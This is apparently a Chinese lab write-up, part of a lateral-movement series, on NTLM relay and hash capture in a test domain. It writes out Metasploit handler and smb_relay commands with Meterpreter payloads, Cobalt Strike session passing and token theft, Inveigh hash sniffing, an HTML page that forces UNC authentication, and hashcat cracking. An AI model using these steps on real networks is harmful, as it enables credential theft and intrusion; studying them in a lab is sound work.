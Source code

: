 ```yaml
---
title: 横向移动-day7-NTLM-Relay重放
date: 2024-03-21 22:30 +0800
categories: [内网,横向移动] 
tags: [横向移动,NTLM]
img_path: /img/penetration/
---
```

## 0x00 介绍与准备

与NLTM认证相关的安全问题主要有Pass The Hash、利用NTLM进行信息收集、Net-NTLM Hash破解、NTLM Relay几种。

PTH前期已经了，运用mimikatz、impacket工具包的一些脚本、CS等等都可以利用。而利用NTLM收集信息没有太大必要，hash破解可以直接利用工具，在此不细讲。因此我们主要将注意力放在relay上！！！

NTLM Relay又包括（relay to smb,ldap,ews），可以应用在获取不到明文或HASH时采用的手法，但也要注意手法的必备条件。一般就是作为一种中继攻击或者重放进行应用。

##### 环境使用如下：

DC-God.org，webserver，Mary-PC（因为环境问题，我在这台主机上设置了连接外网的网卡）。

## 0x01 NTLM中继攻击-Relay重放-SMB上线

#### 1）条件

通讯双方当前用户密码一致！！

#### 2）利用过程

1、首先，利用cs在对应靶机上上线（win7上上线），并设置cs与msf联动！

先进行提权：

![截图](8cb7a6663f8bd86985df29175b9e5d1c.png)

设置联动：

![截图](0faadd0ef8ba946bbd4a23cb88fa0ce4.png)

开启kali的msf：

```shell
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```

在cs中输入如下命令，开启联动转发：（最好使用管理员权限！）

```shell
spawn msf
```

![截图](7757f39963200f099a387b044314c735.png)

此时，msf就会接管cs那边对于的权限！

此时，添加路由并退出该会话：

```shell
run post/multi/manage/autoroute //添加当前路由表
run autoroute -p //查看当前路由表
backgroup //返回
```

![截图](638d69ddf3746e312dd161857adaa63d.png)

2、添加重发模块：

这里我们利用smb的重发模块来进行攻击！

```shell
重发模块：
use exploit/windows/smb/smb_relay
set smbhost 192.168.3.32 //目标机子的ip，需要渗透的那台，也就是sqlserver的
set autorunscript post/windows/manage/migrate
主动连接：
set payload windows/meterpreter/bind_tcp
set rhost 192.168.3.32 //设置连接目标
run
```

![截图](ef89413120f3a9573e0e60f4ebf68ee1.png)

3、cs中切换用户：

（由于这个重放使用的账户与密码是这个主机当前的账户与密码。）因此，我们需要切换到mary本地的administrtor的用户！！！

首先在cs中，利用sysytem权限的会话窗口进行切换（这里有个bug，可能需要在本地的windows先登录过一次可能才有）

```shell
#切换、窃取令牌
ps //观察administrator用户
```

![截图](33afebcb1faf3e7defe4e8deb2e2fb81.png)

找到administrator用户的进程，即这个explorer的进程。 然后，进行切换：

```shell
steal_token [pid]  //切换进程
```

![截图](16153afcba5397efa282ddf0bd182d59.png)

4、利用dir访问主机，即可实现重放！

```shell
shell dir \\192.168.207.140\c$ //注意，这里的ip必须写的是转发攻击的目标，换句话说是中继的服务器的ip （vps的ip）
```

![截图](69f3e12610048676c4aec8437592f0b7.png)

这里我就直接说了并未成功，只返回了hash值，但是会话并未建立起来，我查询了一下，确实网上很多文章都未成功，不过也有说64位系统未成功，但是32位系统成功了，这…所以我也不想切换32位系统进行测试了，如果只有32位系统能够成功，那真的就太鸡肋了，同时还有一种情况，目前更新的msf都是新的，会不会是msf模块中的一个小bug问题，所导致的。

## 0x02 NTLM中继攻击-Inveigh嗅探-Hash破解

#### 1)条件

被控主机当前管理员权限。放在websever上

注：

获取到的是NET NTLM HASH V1或V2
此hash是挑战hash，是不能直接用来hash传递攻击的

#### 2) 利用过程

上传文件到对应主机 ：

![截图](9a2774eb2e68767ede7c25d9221c34fd.png)

启动该exe，进行监听拦截：（必须使用管理员权限）

==需要有请求的动作，不需要非得访问webserver，只要有用户名和密码验证就能抓到==

```shell
Inveigh.exe
```

![截图](c01716330a9943566d6fd6a963607ccf.png)

任意访问该机器的ip即可实现监听拦截，并窃取对应的hash：

![截图](e4801189a8bafc8020244779aa5c5688.png)

实现钓鱼触发：

	这里我们需要构建任意一个html页面，从而使可以向我们已被攻陷的靶机发起任意的请求：

```html
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
  <img src="file:///\\192.168.3.32\2">
</body>
</html>
```
{: file='钓鱼.html']}
别的主机访问192.168.3.31\\1.html ,即可

破解hash：（kali的）

```shell
hashcat -m 5600 hash1 pass2.txt 
hashcat -m 5600 hash1 pass2.txt  --show
```
